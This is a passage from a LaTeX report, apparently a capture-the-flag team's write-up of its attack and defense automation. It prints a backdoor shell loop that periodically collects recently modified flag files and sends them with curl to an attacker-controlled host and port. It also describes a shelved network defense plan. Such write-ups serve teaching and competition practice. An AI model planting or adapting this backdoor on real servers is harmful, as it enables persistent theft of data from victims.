 \documentclass[12pt]{report}
\begin{document}
\noindent As mentioned, the malicious \texttt{backdoor.sh} works only if assumptions \textbf{(1)} or \textbf{(2)} apply. The program, placed on the victim server, was designed with the knowledge that we've acquired exploring our own server and operates by periodically (every 3 minutes) executing the code 

\begin{lstlisting}
for SVC in $(find /opt/ctf/ -name rw -type d);
do
    FLAGS=$(find $SVC -type f -cmin -3 -exec grep -o `FLG[[:alnum:]]{13}
    	   {} \; | paste -sd `/')
    curl  "$HOST:$PORT/$FLAGS"
    sleep 3m
done
\end{lstlisting}

\noindent which constructs a list of flags from the most recently created files found within existing \texttt{/opt/ctf/*/rw} directories. The reason why we read a set of files as opposed to simply storing the most recently touched file was due to some unexplained behaviors by the game server. What had occurred previously was that for an unknown reason, multiple files of a single service would be updated, and because of this behavior, there was no known solution that we had that could pinpoint the correct file to use. Instead we opted to go towards a brute force method described previously. After obtaining the set of the most recently updated files within the past three minutes, the script uses curl to make an HTTP GET request with all the flags in the URI path, each separated by '/'. Once sent, the packet is ideally processed by the server script.\\

\noindent Our initial approach to defensive automation was focused on the network standpoint. We had originally planned to design a tool that would lie between the services and the network, similar to a mix between a proxy and firewall. We had planned to use this tool to intercept inputs and payloads before forwarding them into the application, monitor traffic and report those that were suspicious. However after several discussions were had and more research on the game server was done, it was decided this was infeasible. The way in which the network was set up, namely, the enabling of NAT prevented us from continuing with this project. NAT, or Network Address Translation made it extremely difficult to differentiate the source and destination of requests and responses. We decide to switch gears and focus on patching the services directly rather than prevent outside data from reaching it.\\
\end{document}
